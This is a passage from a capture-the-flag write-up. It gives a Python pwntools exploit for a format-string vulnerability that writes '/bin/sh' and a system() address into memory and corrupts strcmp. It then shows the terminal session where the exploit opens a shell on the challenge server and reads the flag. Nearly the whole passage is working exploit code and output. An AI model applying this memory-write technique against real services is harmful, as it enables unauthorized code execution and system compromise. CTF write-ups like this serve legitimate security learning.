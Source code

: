 ```python
        conn.send("%"+str(ord(what))+"c%124$hhn")
    else:
        conn.send("%"+str(ord(what))+"c%124$hn")
    conn.recv(300)
    
def writebytes(what, where):
    for i in range(len(what)):
        write1(what[i], where+i)
        
global conn
conn = remote('challs.ctf.site', 20002)
conn.recv(200)

print "[+] writing /bin/sh to 0x13373008"
writebytes('/bin/sh', 0x13373008)

print "[+] writing system() to 0x13372020"
writebytes(struct.pack('I', 0xb7e69cd0), 0x13372020)

print "[+] fucking up strcmp()"
writebytes("\x1f", 0x13372011)

conn.interactive()
```

Yeah. Pretty horrible. 

```
bas@tritonal:~/bin/ekoparty-ctf/pwn20$ python pwnpoc.py 
[+] Opening connection to challs.ctf.site on port 20002: Done
[+] writing /bin/sh to 0x13373008
[+] writing system() to 0x13372020
[+] fucking up strcmp()
[*] Switching to interactive mode
$ id
$ id
uid=1001(simple) gid=1001(simple) groups=1001(simple)
$ cd /home/simple
$ ls -al
total 68
drwxr-x--- 2 simple simple  4096 Sep 17 13:45 .
drwxr-xr-x 6 root   root    4096 Sep 12 21:10 ..
-rw------- 1 simple simple   145 Sep 12 21:13 .bash_history
-rw-r--r-- 1 simple simple   220 Oct  7  2014 .bash_logout
-rw-r--r-- 1 simple simple  3637 Oct  7  2014 .bashrc
-rw-r--r-- 1 simple simple   675 Oct  7  2014 .profile
-rwxr-xr-x 1 root   root   27095 Nov 17  2011 checksec.sh
-rw-r--r-- 1 simple simple    35 Sep 14 23:37 flag
-rw-r----- 1 root   simple  1904 Aug 27 01:08 fmt_001.c
-rwxr-x--- 1 root   simple  5776 Aug 27 01:08 greetings
Hi id

OMG! nice work, your flag is: ^\x10LnBye!
[*] Got EOF while reading in interactive
$  
```
